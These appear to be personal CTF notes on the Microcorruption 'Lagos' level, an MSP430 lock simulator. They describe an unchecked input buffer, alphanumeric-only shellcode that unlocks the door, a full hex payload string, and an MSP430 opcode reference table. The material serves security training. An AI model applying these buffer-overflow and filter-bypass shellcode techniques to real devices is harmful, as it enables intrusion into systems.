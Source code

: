 # Lagos #

* Input stored at 0x2400
* Gets moved to 0x43ed
* not bounds checked

48-57 0x30-0x39 number
65-90 0x41-0x5a uppercase letters
97-122 0x61-0x7a lowercase letters

If some of the input is not alphanumeric, it zaps 512 bytes starting at from there out to zero, so may just need to input some alphanumeric to a point ant then some code injection

```
mov #0xff00, sr
call #0x10
```

`324000ffb0121000`

But those bytes have nulls and values not in the valid ascii 0-9, a-z, A-Z ranges

Eventual call to `conditional_unlock_door` which is at 0x4446, 89 bytes away from out input at 0x43ed

Get 0xff into sr
```
clr.b sr
subc.b #0x1, sr
```

`42435273`

Get 0x10 into r15 and call it

```
clr.b r15
incd.b r15
incd.b r15
incd.b r15
incd.b r15
incd.b r15
incd.b r15
incd.b r15
incd.b r15

mov.b r15, r1
ret
```

`4f436f536f536f536f536f536f536f536f53414f3041`

3030303030303030303030303030303030303030303030303030303030303030303030303030303030303030303030303030303030303030303030303030303030303030303030303030303030303030303030303030303030424352734f436f536f536f536f536f536f536f536f53414f3041

AAAAAAAAAAAAAAAAA	TF	BBBB	BB
AAAAAAAAAAAAAAAAATFBBBBBB
Might need to see if we can write a code only within the ascii 0-9, a-z, A-Z?
```
0x30 - 0x39
0x41 - 0x5A
0x61 - 0x7A
```
That should mean it's at least possible to use `mov, add, subc, rrc, rra, push, and reti`

# Double Operand Instructions #
```
15 14 13 12 11 10 09 08 07 06  05 04 03 02 01 00
Opcode      S-Reg       Ad B/W As    D-Reg
```

- MOV(.B) src,dst src → dst
- ADD(.B) src,dst src + dst → dst
- ADDC(.B) src,dst src + dst + C → dst
- SUB(.B) src,dst dst + .not.src + 1 → dst
- SUBC(.B) src,dst dst + .not.src + C → dst
- CMP(.B) src,dst dst − src * * * *
- DADD(.B) src,dst src + dst + C → dst (decimally)
- BIT(.B) src,dst src .and. dst
- BIC(.B) src,dst .not.src .and. dst → dst
- BIS(.B) src,dst src .or. dst → dst
- XOR(.B) src,dst src .xor. dst → dst
- AND(.B) src,dst src .and. dst → dst

```
mov  0x4000
add  0x5000
addc 0x6000
sub  0x8000
subc 0x7000
cmp  0x9000
dadd 0xa000
bit  0xb000
bic  0xc000
bis  0xd000
xor  0xe000
and  0xf000
```

# Single Operand Instructions #
```
15 14 13 12 11 10 09 08 07 06  05 04 03 02 01 00
Opcode                     B/W Ad    D/S-Reg
```

- RRC(.B) dst C → MSB →.......LSB → C
- RRA(.B) dst MSB → MSB →....LSB → C
- PUSH(.B) src SP − 2 → SP, src → @SP
- SWPB dst Swap bytes
- CALL dst SP − 2 → SP, PC+2 → @SP
  - dst → PC
- RETI TOS → SR, SP + 2 → SP
  - TOS → PC,SP + 2 → SP
- SXT dst Bit 7 → Bit 8........Bit 15

```
rrc  0x1000
rra  0x1100
push 0x1200
swpb 0x1080
call 0x1280
reti 0x1300
sxt  0x1180
```

# Jump Instruction Format #
```
15 14 13 12 11 10 09 08 07 06  05 04 03 02 01 00
Opcode   C        10-Bit PC Offset
```

- JEQ/JZ Label Jump to label if zero bit is set
- JNE/JNZ Label Jump to label if zero bit is reset
- JC Label Jump to label if carry bit is set
- JNC Label Jump to label if carry bit is reset
- JN Label Jump to label if negative bit is set
- JGE Label Jump to label if (N .XOR. V) = 0
- JL Label Jump to label if (N .XOR. V) = 1
- JMP Label Jump to label unconditionally

```
jeq 0x2400
jz  0x2400
jne 0x2000
jnz 0x2000
jc  0x2c00
jnc 0x2800
jn  0x3000
jge 0x3400
jl  0x3800
jmp 0x3c00
```

